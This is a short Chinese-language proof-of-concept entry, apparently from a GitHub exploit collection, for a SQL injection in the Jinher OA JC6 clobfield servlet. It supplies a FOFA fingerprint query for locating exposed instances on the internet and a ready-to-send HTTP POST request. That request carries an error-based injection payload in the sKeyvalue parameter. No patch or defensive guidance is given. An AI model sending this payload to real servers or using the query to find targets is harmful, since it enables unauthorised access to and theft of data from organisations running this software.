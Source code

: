 ## 金和OA jc6 clobfield SQL注入漏洞
金和OA jc6 ljc6/servlet/clobfield接口处存在SQL注入漏洞，攻击者可获取数据中中敏感信息。

## fofa
```

title="金和协同管理平台" || body="js/PasswordCommon.js" || body="js/PasswordNew.js" || body="Jinher Network" || (body="c6/Jhsoft.Web.login" && body="CloseWindowNoAsk") || header="Path=/jc6" || (body="JC6金和协同管理平台" && body="src=\"/jc6/platform/") || body="window.location = \"JHSoft.MobileApp/Default.htm\";" || banner="Path=/jc6"
```

## poc
```
POST /jc6/servlet/clobfield HTTP/1.1
host:127.0.0.1

key=readClob&sImgname=filename&sTablename=FC_ATTACH&sKeyname=djbh&sKeyvalue=11%27%2F**%2Fand%2F**%2FCONVERT%28int%2C%40%40version%29%3D1%2F**%2Fand%2F**%2F%27%27%3D%27
```
![image](https://github.com/wy876/POC/assets/139549762/09333181-7373-4930-ad60-91e168709564)


